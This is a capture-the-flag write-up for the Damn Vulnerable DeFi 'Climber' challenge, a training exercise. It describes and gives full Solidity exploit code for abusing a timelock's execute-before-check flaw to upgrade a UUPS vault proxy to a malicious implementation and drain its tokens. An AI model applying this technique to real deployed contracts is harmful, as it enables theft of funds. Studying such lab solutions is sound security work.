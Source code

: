 # 12. Climber

- This challenge featured the UUPS proxy pattern.
- The admin of the proxy was compromised and we were able to get control of it and execute transactions at will.
- We were able to execute a transaction where we execute the `upgradeToAndCall` function on the proxy and change the implementation to our attacking contract. This completely bypasses all of the previous defence mechanisms of the first implementation.
- We were able to drain the contract of it’s tokens.

## Solution

- `ClimberTimelockAttacker.sol` - this contract served as a middleman that was given proposer roles in order to execute the transactions against the `ClimberTimelock` contract

```
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {ClimberTimelock} from "../ClimberTimelock.sol";
import {ClimberVaultAttackImplementation} from "./ClimberVaultAttackImplementation.sol";

contract ClimberTimelockAttacker {
    function attackOperationSchedule(
        address payable timelock,
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements
    ) public {
        bytes[] memory newDataElements = new bytes[](3);

        newDataElements[0] = dataElements[0];
        newDataElements[1] = dataElements[1];
        newDataElements[2] = abi.encodeWithSignature(
            "attackOperationSchedule(address,address[],uint256[],bytes[])", timelock, targets, values, dataElements
        );

        ClimberTimelock(timelock).schedule(targets, values, newDataElements, bytes32("grant proposer role"));
    }

    function attackClimberVault(
        address payable timelockAdminContract,
        address attackImplementation,
        address climberVault,
        address recovery,
        address token
    ) public {
        address[] memory targets = new address[](1);
        targets[0] = climberVault;
        uint256[] memory values = new uint256[](1);
        values[0] = 0;

        bytes[] memory dataElements = new bytes[](1);
        dataElements[0] = abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            attackImplementation,
            abi.encodeWithSignature("sweepDvtTokens(address,address)", recovery, token)
        );

        ClimberTimelock(timelockAdminContract).schedule(targets, values, dataElements, bytes32("sweep tokens"));
        ClimberTimelock(timelockAdminContract).execute(targets, values, dataElements, bytes32("sweep tokens"));
    }
}

```

- `ClimberVaultAttackImplementation.sol` - this was the new attack implementation contract to which we upgraded the proxy to. It has a simple functionality to drain the contract

```
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Initializable} from "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import {OwnableUpgradeable} from "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import {UUPSUpgradeable} from "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import {DamnValuableToken} from "../../DamnValuableToken.sol";

contract ClimberVaultAttackImplementation is UUPSUpgradeable {
    constructor() {}

    function sweepDvtTokens(address recovery, address token) public {
        DamnValuableToken(token).transfer(recovery, DamnValuableToken(token).balanceOf(address(this)));
    }

    function _authorizeUpgrade(address newImplementation) internal override {}
}

```

- `Climber.t.sol` - the test file where we deploy the attacking contracts and execute the attack!

```solidity
function test_climber() public checkSolvedByPlayer {
        console2.log("Vault DVT tokens balance before attack", token.balanceOf(address(vault)));

        ClimberTimelockAttacker attacker = new ClimberTimelockAttacker();
        address[] memory targets = new address[](3);
        uint256[] memory values = new uint256[](3);
        bytes[] memory dataElements = new bytes[](3);

        targets[0] = address(timelock);
        targets[1] = address(timelock);
        targets[2] = address(attacker);
        values[0] = 0 wei;
        values[1] = 0 wei;
        values[2] = 0 wei;
        dataElements[0] = abi.encodeWithSelector(ClimberTimelock.updateDelay.selector, uint64(0));
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(attacker));
        dataElements[2] = abi.encodeWithSignature(
            "attackOperationSchedule(address,address[],uint256[],bytes[])",
            address(timelock),
            targets,
            values,
            dataElements
        );
        timelock.execute(targets, values, dataElements, bytes32("grant proposer role"));

        ClimberVaultAttackImplementation attackImplementation = new ClimberVaultAttackImplementation();

        attacker.attackClimberVault(
            payable(address(timelock)), address(attackImplementation), address(vault), address(recovery), address(token)
        );

        console2.log("Vault DVT tokens balance before attack", token.balanceOf(address(vault)));
}

```
